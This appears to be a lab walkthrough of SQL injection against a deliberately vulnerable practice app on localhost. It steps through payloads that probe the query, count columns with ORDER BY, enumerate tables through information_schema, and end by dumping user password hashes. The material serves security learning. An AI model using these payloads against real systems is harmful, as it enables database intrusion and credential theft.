 # [SQL Injection](http://localhost/vulnerabilities/sqli/)

A simple form where if you type in an id it returns the some content from 
the user having that id. The query probably looks something like this:

`SELECT id,first_name,surname FROM users WHERE id=$_GET["id"]`

Let's test for injection. If we type `' or 1=1-- ` we should get back all the 
users from the table. And we do! Five users.

But I want more information than just names. Let's see if we can get to some 
passwords. First, find out how many columns are being returned by the current 
query using `ORDER BY` until it errors out.

`admin' ORDER BY 1-- `

There are only two columns being returned. Presumably two string columns for 
first name and surname. You can confirm this by doing a `UNION`

`1' UNION SELECT 'a','a'-- `

Cool. Let's list the tables with `information_schema`

`' UNION SELECT table_name,'a' FROM information_schema.tables-- `

There are two tables of interest: `guestbook` and `users`

Let's see all the columns of both.

`' UNION SELECT table_name,column_name FROM information_schema.columns WHERE table_name = 'guestbook' OR table_name = 'users'-- `

And we want to dump all the username and password combinations now that 
we know the column names.

`' UNION SELECT concat(user,':',password),null FROM users-- `

Now we got password hashes for all users we can go crack! We won't crack them 
just yet.
